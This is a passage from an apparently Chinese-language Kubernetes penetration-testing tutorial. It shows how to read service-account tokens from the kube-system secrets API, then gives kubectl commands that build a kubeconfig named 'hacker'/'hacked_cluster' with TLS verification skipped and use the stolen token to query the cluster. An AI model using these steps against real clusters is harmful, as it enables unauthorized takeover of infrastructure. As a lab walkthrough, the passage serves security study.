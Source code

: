 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221353.png)

访问`https://192.168.41.22:6443/api/v1/namespaces/kube-system/secrets/` 获取`kube-
system`命名空间的`token`信息：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221354.png)

系统自带的服务账号没啥操作权限，需要寻找运维人员自建的。总之， **有admin就找admin** ，没有的话找个 **非系统自带账号** 或者
**尝试default账号** 。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221356.png)

拿到了token后，可以在攻击机上安装kubectl工具，然后执行以下命令创建一个test_config，token处填入获取的 token：

    
    
    touch test_config  
      
    kubectl --kubeconfig=./test_config config set-credentials hacker --token=TOKEN  
      
    kubectl --kubeconfig=./test_config config set-cluster hacked_cluster --server=https://192.168.41.22:6443/  --insecure-skip-tls-verify  
      
    kubectl --kubeconfig=./test_config config set-context test_context --cluster=hacked_cluster --user=hacker  
      
    kubectl --kubeconfig=./test_config config use-context test_context

生成的文件内容为：

    
    
    apiVersion: v1  
    clusters:  
    - cluster:  
        insecure-skip-tls-verify: true  
        server: https://192.168.41.22:6443/  
      name: hacked_cluster  
    contexts:  
    - context:  
        cluster: hacked_cluster  
        user: hacker  
      name: test_context  
    current-context: test_context  
    kind: Config  
    preferences: {}  
    users:  
    - name: hacker  
      user:  
        token: ZXlKaGJHY2lPaUpTVXpJMU5TOKEN

通过kubectl加载刚才的config文件执行pod里面的命令：

    
    
    kubectl --kubeconfig=./test_config get nodes -A

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220314221357.png)
